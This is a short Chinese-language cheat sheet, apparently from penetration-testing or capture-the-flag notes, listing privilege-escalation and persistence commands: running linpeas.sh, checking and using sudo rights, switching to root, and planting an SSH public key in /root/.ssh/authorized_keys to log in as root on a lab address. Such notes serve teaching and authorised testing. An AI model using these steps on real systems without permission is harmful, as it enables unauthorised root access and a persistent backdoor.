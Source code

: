 ### 运行linpeas脚本以枚举远程服务器
    ./linpeas.sh

## sudo
### 列出可用sudo权限
    sudo -l
### 用sudo运行命令
    sudo -u Enil /bin/echo Hello World!
### 切换到root用户（如果我们有访问sudo su的权限）
    sudo su -

### 创建新的SSH密钥
    ssh-keygen -f key
### 将生成的公钥添加到用户
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
### 使用生成的私钥SSH连接到服务器
    ssh root@10.10.10.10 -i key